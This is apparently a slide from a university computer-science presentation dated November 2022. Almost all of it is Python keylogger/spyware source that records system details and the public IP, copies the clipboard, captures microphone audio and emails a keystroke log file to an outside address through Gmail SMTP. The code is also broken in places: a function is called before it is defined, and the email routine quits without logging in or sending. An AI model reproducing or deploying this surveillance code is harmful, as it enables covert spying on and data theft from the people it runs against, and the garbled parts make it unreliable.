

# get the computer information
def computer_information():
    with open(file_path + extend + system_information, "a") as f:
        hostname = socket.gethostname()
        IPAddr = socket.gethostbyname(hostname)
        try:
            public_ip = get("https://api.ipify.org").text
            f.write("Public IP Address: " + public_ip)
        except Exception:
            f.write("Couldn't get Public IP Address (most likely max query")
        f.write("Processor: " + (platform.processor()) + '\n')
        f.write("System: " + platform.system() + " " + platform.version() + '\n')
        f.write("Machine: " + platform.machine() + "\n")
        f.write("Hostname: " + hostname + "\n")
        f.write("Private IP Address: " + IPAddr + "\n")
computer_information()
copy_clipboard()
# get the clipboard contents
def copy_clipboard():
    with open(file_path + extend + clipboard_information, "a") as f:
        try:
            win32clipboard.OpenClipboard()
            pasted_data = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            f.write("Clipboard Data: \n" + pasted_data)
            print("\n")
        except:
            f.write("Clipboard could be not be copied")
            print("\n")
copy_clipboard()

# get the microphone
def microphone():
    fs = 44100
    seconds = microphone_time
    myrecording = sd.rec(int(seconds * fs), samplerate=fs, channels=2)
    sd.wait()
    write(file_path + extend + audio_information, fs, myrecording)
microphone()
# email controls
def send_email(filename, attachment, toaddr):
    fromaddr = email_address
    msg = MIMEMultipart()
    msg['From'] = fromaddr
    msg['To'] = toaddr
    msg['Subject'] = "Log File"
    body = "Body_of_the_mail"
    msg.attach(MIMEText(body, 'plain'))
    filename = filename
    attachment = open(attachment, 'rb')
    p = MIMEBase('application', 'octet-stream')
    p.set_payload(attachment.read())
    encoders.encode_base64(p)
    p.add_header('Content-Disposition', "attachment; filename= %s" % filename)
    msg.attach(p)
    s = smtplib.SMTP('smtp.gmail.com', 587)
    s.starttls()
s.quit()
send_email(keys_information, file_path + extend + keys_information, toaddr)

11 November 2022
Department of CSE
8